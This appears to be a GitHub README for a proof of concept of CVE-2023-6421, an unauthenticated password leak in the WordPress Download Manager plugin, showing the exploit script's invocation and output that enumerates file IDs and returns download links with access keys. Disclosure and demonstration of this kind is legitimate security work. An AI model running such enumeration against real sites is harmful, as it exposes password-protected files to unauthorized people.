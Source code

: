 # CVE-2023-6421
Download Manager &lt; 3.2.83 - Unauthenticated Protected File Download Password Leak

# Description
The plugin does not protect file download's passwords, leaking it upon receiving an invalid one

# POC
```
python3 CVE-2023-6421.py https://kubernetes.docker.internal
No link generated for ID 1.
No link generated for ID 2.
Response for ID 3: https://kubernetes.docker.internal/?page_id=3&wpdmdl=3&_wpdmkey=6706819b904ce
No link generated for ID 4.
No link generated for ID 5.
No link generated for ID 6.
No link generated for ID 7.
No link generated for ID 8.
Response for ID 9: https://kubernetes.docker.internal/?wpdmdl=9&_wpdmkey=6706819f1b1f6
Response for ID 10: https://kubernetes.docker.internal/1-1/?wpdmdl=10&_wpdmkey=6706819fa0654
```
